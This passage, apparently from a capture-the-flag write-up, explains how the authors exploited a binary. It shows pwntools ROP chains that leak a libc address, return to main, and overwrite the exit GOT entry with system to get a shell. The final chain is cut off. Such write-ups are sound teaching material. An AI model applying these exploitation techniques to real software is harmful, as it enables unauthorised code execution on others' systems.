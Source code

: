 Turns out this ROP chain was too big, we got a lot of `NaN`s from the inverted
matrix. damn. New constraint: shorter ROP chains. We modified the infoleak
ROP chain to to jump back to main:

```python
chain0 = ROP(velf)
# first infoleak libc address
chain0.raw(poprdiret)
chain0.raw(velf.got['puts'])
chain0.raw(velf.symbols['puts'])
# jump back to main and repeat
chain0.raw(main_addr)
```

This way we can repeat the whole process and overwrite the return address
again.
With the leaked libc address we constructed another small ROP payload:

```python
libc.address = puts_leaked - libc.symbols['puts']
chain1 = ROP([velf, libc])
chain1.raw(poprdiret)
chain1.raw(next(libc.search("/bin/sh\x00")))
chain1.raw(libc.symbols['system'])
```

This did not work *at all*. Apparently imprecision of the computation on the
`double` values was too high. The values we got on the stack were somewhere in
the libc, but far away from what we wanted... OK. New limitation, we cannot
directly use addresses of the libc in our ROP chain. The addresses in the main
binary worked pretty reliably so we are restricted to use those. Short recap:

1. We cannot use libc address in the ROP chain
2. The ROP chain must be `<= 9` slots for the matrix invert to work out

Now it's gonna get intereseting. We probably could've found a way to work
around 2 by continuing the ROP chain in the last row of the matrix and
adjusting the stack a little. But we didn't bother as using repeated corruption
by returning to main again worked pretty well.

In the second ROP chain we will now use a function from the binary to
overwrite the address of `exit` in the `GOT`. We used the 
`read_data(char*buffer, uint32_t size)` function at `0x400d75`. 
We couldn't find a gadget to set `rdx`, so we can't use `read` directly. How 
nice that there is a wrapper in the binary :) 

We overwrote the address of `exit` with the address of `system`. Now we just
need to set the first argument of `system` to something useful. Unfortunately
we didn't find a string `sh\x00` in the main binary. So we opted to write the
string into the `GOT`, directly after the `exit` entry.


```python
chain0 = ROP(velf)
# infoleak libc address
chain0.raw(poprdiret)
chain0.raw(velf.got['puts'])
chain0.raw(velf.symbols['puts'])
# back to main
chain0.raw(main_addr)

chain1 = ROP(velf)
# set first argument to exit@GOT
chain1.raw(poprdiret)
chain1.raw(velf.got['exit'])
# we ignore the second argument, worked anyway
chain1.raw(read_data_addr)
# set first argument to exit@GOT + 8
chain1.raw(poprdiret)
```